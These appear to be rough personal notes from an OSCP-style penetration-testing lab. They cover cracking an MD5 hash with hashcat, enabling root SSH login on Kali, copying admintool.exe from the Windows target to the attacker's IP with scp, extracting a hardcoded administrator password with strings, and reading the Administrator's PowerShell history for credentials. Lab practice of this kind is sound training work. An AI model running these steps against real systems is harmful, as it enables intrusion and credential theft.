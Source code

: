   

  

why is is MD5:

To determine whether the string `26231162520c611ccabfb18b5ae4dff2` is an **MD5 hash**, there are a few key characteristics and tools you can use:

### Key Characteristics of MD5:

1. **Length**: MD5 hashes are always **32 characters long** and composed of hexadecimal digits (0-9, a-f). The string you provided (`26231162520c611ccabfb18b5ae4dff2`) fits this pattern.
2. **Hexadecimal**: MD5 outputs are made up of hexadecimal characters (0-9, a-f), and the string you've provided consists solely of such characters.

```SQL
 hashcat -m 0 -a 0 26231162520c611ccabfb18b5ae4dff2  /usr/share/wordlists/rockyou.txt
```

- `**m 0**`: This tells Hashcat that you are cracking an **MD5** hash.
- `**a 0**`: This specifies a **dictionary attack** mode (where you compare the hash against a wordlist of possible passwords).

```SQL
python -m http.server 80


```

for kali

sudo apt update  
sudo apt install openssh-server

sudo systemctl start ssh  
sudo systemctl enable ssh

sudo nano /etc/ssh/sshd_config

PermitRootLogin yes  
PasswordAuthentication yes

sudo systemctl restart ssh

in windows

```SQL
 scp C:\Users\support\admintool.exe phd_yeyy@192.168.45.178:/home/phd_
yeyy 
```

in kali, the name admintool.exe tells you that it have password in side

strings admintool.exe | grep password  
administratorDecember31Enter administrator password:  
Wrong administrator password!

  

PS C:\Users\support> type C:\Users\administrator\AppData\Roaming\Microsoft\Windows\PowerSh  
ell\PSReadLine\ConsoleHost_history.txt  
C:\users\support\admintool.exe hghgib6vHT3bVWf cmd  
C:\users\support\admintool.exe cmd  
shutdown /r /t 7  
ls  
cd ..  
ls  
cd .\Administrator\  
cd ..  
cd .\Administrator.OSCP\  
ls  
cd .\Desktop\  
ls  
